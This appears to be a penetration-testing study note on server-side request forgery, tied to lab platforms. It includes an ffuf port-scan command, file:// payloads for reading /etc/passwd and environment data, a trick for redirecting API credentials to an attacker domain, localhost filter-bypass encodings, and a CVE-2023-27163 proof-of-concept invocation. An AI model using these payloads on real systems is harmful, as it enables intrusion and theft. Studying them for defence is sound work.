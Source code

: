 # Server-Side Request Forgery (SSRF)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)
[![testingforssrf](../../../../_badges/owasp/testingforssrf.svg)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)
[![server_side_request_forgery](../../../../_badges/poat/server_side_request_forgery.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

<div class="row row-cols-lg-2"><div>

Server-Side Request Forgery (SSRF) is an attack in which a hacker can make a server request something from another server, usually an internal server or an API.

From instance, a website using an API. If there is a SSRF vulnerability, the hacker may be able to query the API by exploiting the website.

Common attack vectors

* 📚 Headers <small>(mostly User-Agent)</small>
* 📄 Forms <small>(internal API calls)</small>
* 🍪 Cookies
* 🌍 Remote connections <small>(imports, file processing, etc.)</small>
</div><div>

Common usages are:

* Port mapping
* Firewall by-pass
* Steal sensitive data

There are two kinds of SSRF

* **Regular/in-band SSRF**: the client will see the result
* **Blind/out-band SSRF**: nothing is returned to the client

Refer to [request grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) to catch requests.
</div></div>

<hr class="sep-both">

## Common payloads

<div class="row row-cols-lg-2"><div>

#### Forms

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

A common scenario is a [PHP](/programming-languages/web/php/_general/index.md) call to `file_get_contents` to access a remote file. You have similar functions in other languages.

**Mapping ports/services** 🗺️

You may inject URLs such as `http://localhost:22` to test if the port `22` is open. You could also make the server call `http://ifconfig.pro/` to get some information <small>(IP, DNS...)</small>.

```
$ seq 1 65535 > ports.txt
$ ffuf -w ports.txt -u 'http://IP/?xxx=http://127.0.0.1:FUZZ' -fr 'Connection refused'
```

**Steal files** 💰

You may inject URLs to steal a file. For instance, a URL using the file protocol: `file://some/file/on/the/target`.

* `/etc/passwd`
* `/proc/self/environ`

You could also try to connect to your FTP server using `ftp://`.
</div><div>

#### URL

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

**Access another untended path** ✂<br> `a?api=path` $\to$ `b/path`

In that case, you could guess that the first server A is mapping the value given to `api` to the server b. You may try to inject the path, and see if you can access other API routes.

**Steal API credentials** 🗝️<br> `a?api=xxx&r=path` $\to$ `xxx.b/path`

If the programmer is using user input to determine which server will be queried, then the hacker may try to send the request to their servers instead, and get the API credentials inside the headers.

For instance, with the `api=xxx`, a normal request could be sent to `xxx.thebestapi.com/path`. But, if a hacker uses `api=malicious_website.com?&ignore=`, then the URL crafted is `malicious_website.com?&ignore=.thebestapi.com/path`. Notice that the request is now sent to another website, and the concatenated domain name is now the value of `ignore`.
</div></div>

<hr class="sep-both">

## Mitigations 🛡️

[![ssrfqi](../../../../_badges/thmp/ssrfqi.svg)](https://tryhackme.com/room/ssrfqi)

<div class="row row-cols-lg-2"><div>

**Allow List/Whitelist**

It's usually the better way. But, if there is a condition like `the URL must start with https://example.com`, then it can be bypassed with `https://example.com.malicious.website`.

**Others**

* Check that the resource type is what was expected
* ...

</div><div>

**Deny list/Blacklist**

You may allow every IP aside from some such as localhost (127.0.0.1), or 169.254.169.254 in a cloud environment, but there are usually a lot of ways to bypass such filters.

For instance, `0`, `00`, `000[...]0`, `0.0.0.0`, `127.1` (IP shortening), `2130706433` (decimal), `017700000001` (octal), and many more such as [127.0.0.1.nip.io](http://127.0.0.1.nip.io)/[localtest.me](http://localtest.me) are all resolving to `127.0.0.1`.
</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2023-27163

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

CVE in [request-baskets](https://github.com/darklynx/request-baskets). [POC (shell script)](https://github.com/entr0pie/CVE-2023-27163) <small>(0.02k ⭐)</small>.

```shell!
$ ./CVE-2023-27163.sh http://target:port http://listener:port 
Creating the "<backet>" proxy basket...
Basket created!
$ curl http://target:port/<backet> # send to listener
```

It can be used to access a resource behind a firewall.

```ps
$ ./CVE-2023-27163.sh http://target:port http://target:port2 
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Other attack vectors

* avatar form
* a script
* a header
* ...
</div><div>

* Blind SSRF (requestbin/burp collaborator)
</div></div>